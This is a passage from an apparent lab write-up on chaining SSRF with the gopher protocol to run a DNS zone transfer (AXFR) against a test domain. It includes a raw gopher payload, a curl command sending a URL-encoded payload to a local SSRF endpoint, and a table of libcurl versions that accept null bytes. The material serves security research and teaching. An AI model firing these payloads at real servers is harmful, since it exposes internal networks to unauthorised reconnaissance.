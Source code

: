 ![](/images/SSRFmapAXFR/out-xfr-answer.png)


Finally, the server answers with 4 subdomains on `example.lab`. 

{% highlight ps1%}
frontend.example.lab.   0       IN      A       10.10.10.10
backend.example.lab.    0       IN      A       10.10.10.11
secret_flag.example.lab. 0      IN      A       10.10.10.12
test.example.lab.       0       IN      A       10.10.10.12
{% endhighlight %}

Now the next step is to transform this request to be able to send it through an SSRF. For this, we will use the gopher protocol.

> The Gopher protocol (/ˈɡoʊfər/) is a communication protocol designed for distributing, searching, and retrieving documents in Internet Protocol networks. - Wikipedia

It is very easy to use this protocol with the gopher scheme: `gopher://IP:PORT/_DATA`.

In theory, the payload should be as follow: `gopher://127.0.0.1:53/_%00%1d%a9%c1%00%20%00%01%00%00%00%00%00%00%07%65%78%61%6d%70%6c%65%03%6c%61%62%00%00%fc%00%01`. The final exploit requires an URL encoding.

{% highlight ps1%}
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%25
6d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
{% endhighlight %}

However, in my first attempt it didn't work because the gopher protocol is not accepting a NULL BYTE (`%00`). I went into the issues of the curl project and I discovered this one : [issues/9089](https://github.com/curl/curl/issues/9089)

> Yes, using libcurl/7.47.0. I can run this command curl 'gopher://127.0.0.1:1234/_%0012' without any error.

It picked my interest, here is a small table with known vulnerable version.

| libcurl version | Vuln ?          |
| --------------- | --------------- |
| 7.47.0          | Vulnerable      |
| 7.71.0          | Vulnerable      |
| 7.79.1          | Not vulnerable  |
| 8.X             | Not vulnerable  |
